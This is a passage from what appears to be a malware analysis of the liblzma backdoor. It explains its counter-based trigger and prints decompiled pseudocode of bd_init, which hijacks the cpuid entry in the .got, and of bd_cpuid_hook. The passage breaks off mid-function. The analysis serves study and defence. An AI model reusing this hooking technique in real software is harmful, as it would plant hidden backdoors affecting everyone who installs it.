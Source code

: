 Note that `g_counter` is shared between `crc32_resolve` and `crc64_resolve`; `crc32_resolve` increments the counter first, then when `crc64_resolve` executes, the check `g_counter == 1` succeeds and the backdoor executes.

The pseudocode of `bd_init` function is shown below:

```c
uint64_t __fastcall bd_init(bd_hook_ctx *hook_ctx, void *a2)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS NUMPAD "+" TO EXPAND]

  hook_ctx->runtime_label = hook_ctx;
  bd_hook_ctx_init(hook_ctx);
  hook_ctx->return_address = hook_ctx->result_ptr;
  runtime_offset = hook_ctx->static_label - hook_ctx->runtime_label;
  hook_ctx->runtime_offset = runtime_offset;
  cpuid_got_ptr_is_null = g_ptrs_table.cpuid_got_ptr + runtime_offset == 0;
  cpuid_got_ptr = (g_ptrs_table.cpuid_got_ptr + runtime_offset);
  hook_ctx->result_ptr = cpuid_got_ptr;
  if ( !cpuid_got_ptr_is_null )
  {
    v7 = cpuid_got_ptr;
    v6 = *cpuid_got_ptr;
    // replace cpuid with bd_cpuid_hook
    *cpuid_got_ptr = g_ptrs_table.bd_cpuid_hook + runtime_offset;
    // call to bd_cpuid_hook (0x6F60)
    runtime_offset = cpuid(hook_ctx, a2, cpuid_got_ptr, &g_ptrs_table, index);
    *v7 = v6;
  }
  return runtime_offset;
}
```

As we can see, the `cpuid` function pointer in `.got` will be overwritten by with the `bd_cpuid_hook` function pointer and during a the next call to `cpuid`, control will pass to the `bd_cpuid_hook` function.

We consider this function as the _real_ entry point of the backdoor.

## Backdoor entry point analysis

```c
// backdoor entry point
uint64_t __fastcall bd_cpuid_hook(bd_hook_ctx *hook_ctx)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS NUMPAD "+" TO EXPAND]

  // zeromem
  index = 0x22;
  table = &ftable;
  while ( index )
  {
    LODWORD(table->start) = 0;
    table = (bd_ftable *)((char *)table + 4);
    --index;
  }
  // zeromem
  current = &input;
  for ( i = 0x22; i; --i )
  {
    LODWORD(current->start) = 0;
    current = (install_input *)((char *)current + 4);
  }
  lzma_check_init(&input.lzma_check_state, 0);// LZMA_CHECK_NONE
  status = bd_ftable_init(&ftable);
  do
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48